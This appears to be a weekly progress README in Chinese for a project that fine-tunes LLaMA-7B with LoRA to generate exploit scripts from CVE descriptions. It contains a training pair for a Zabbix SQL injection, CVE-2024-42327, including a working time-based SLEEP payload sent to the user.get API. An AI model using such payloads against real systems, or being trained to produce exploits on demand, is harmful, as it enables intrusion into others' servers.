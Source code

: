 # 250926 README

这一周主要在爬虫和预处理数据

1. 爬了近五年的cve漏洞描述，按利用类型可分为10类

- Overflow
- Memory Corruption
- **Sql Injection**
- **XSS**
- **Directory Traversal**
- **File Inclusion**
- CSRF
- XXE
- SSRF
- Open Redirect
- Input Validation

2. 爬虫存在的问题：

- exploit db无法利用cve id作为索引来匹配target url，需要额外预处理一下
- exploit db存在cve id缺省/老旧问题，暂未处理这部分脚本
- GitHub需要区分cve eploit和修复方案，还在写爬虫脚本

3. 微调

    先针对Sql Injection类选了50个exploit example送到Lamma-7b微调（Lora）。输出的脚本存在的问题：

- 参数缺省：为解决该问题，正在对不同类的expliot script进行词频统计，筛选出比较通用的参数，后续讲把它加入到微调的input中（如Sql Injection类需要target ip, username,password,php path,url等）
- 无效payload：增加微调样本、数据预处理（Todo）
- 无法执行：增加微调样本、数据预处理（Todo）

![1758861040987](image/250926/1758861040987.png)

```
Input:
CVE ID: CVE-2024-42327
CVE Description: A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.
Exploit Category:SQL Injection

Expected Output:
import requests
import argparse

HEADERS = {"Content-Type": "application/json"}

def main():
    parser = argparse.ArgumentParser(description="CHECK for CVE-2024-42327")
    parser.add_argument("-t", "--target", required=True, help="API URL")
    parser.add_argument("-u", "--username", required=True, help="Username")
    parser.add_argument("-p", "--password", required=True, help="Password")

    args = parser.parse_args()

    url = f"{args.target.rstrip('/')}/api_jsonrpc.php"

    # Login to get the token
    login_data = {
        "jsonrpc": "2.0",
        "method": "user.login",
        "params": {"username": args.username, "password": args.password},
        "id": 1,
        "auth": None
    }

    try:
        login_response = requests.post(url, json=login_data, headers=HEADERS)
        login_response.raise_for_status()
        auth_token = login_response.json().get("result")

        # Simple SQLi test
        data = {
            "jsonrpc": "2.0",
            "method": "user.get",
            "params": {
                "selectRole": ["roleid", "name", "type", "readonly AND (SELECT(SLEEP(5)))"],
                "userids": ["1", "2"]
            },
            "id": 1,
            "auth": auth_token
        }

        test_response = requests.post(url, json=data, headers=HEADERS)
        test_response.raise_for_status()

        if "error" in test_response.text:
            print("[-] NOT VULNERABLE.")
        else:
            print("[!] VULNERABLE.")

    except requests.RequestException as e:
        print(f"[!] Request error: {e}")

if __name__ == "__main__":
    main()

Output:
import sys
import requests
import json
from packaging import version

AFFECTED_RANGES = [
    ("6.0.0", "6.0.31"),
    ("6.4.0", "6.4.16"),
    ("7.0.0", "7.0.0"),
]

def is_version_in_ranges(ver_str, ranges):
    try:
        v = version.parse(ver_str)
    except Exception:
        return False
    for lo, hi in ranges:
        if version.parse(lo) <= v <= version.parse(hi):
            return True
    return False

def get_zabbix_api_version(base_url, timeout=10):
    # base_url like "https://zabbix.example.com"
    url = base_url.rstrip("/") + "/api_jsonrpc.php"
    payload = {
        "jsonrpc": "2.0",
        "method": "apiinfo.version",
        "id": 1,
        "params": {}
    }
    headers = {"Content-Type": "application/json"}
    try:
        r = requests.post(url, json=payload, headers=headers, timeout=timeout, verify=True)
        r.raise_for_status()
        data = r.json()
        if "result" in data:
            return data["result"]
        else:
            return None
    except requests.exceptions.SSLError:
        try:
            r = requests.post(url, json=payload, headers=headers, timeout=timeout, verify=False)
            r.raise_for_status()
            data = r.json()
            return data.get("result")
        except Exception as e:
            print("API Request Error:", e)
            return None
    except Exception as e:
        print("API Request Error:", e)
        return None

def main():
    if len(sys.argv) < 2:
        print("Usage: python zabbix_version_check.py https://zabbix.example.com")
        sys.exit(1)
    base = sys.argv[1].strip()
    ver = get_zabbix_api_version(base)

if __name__ == "__main__":
    main()
```
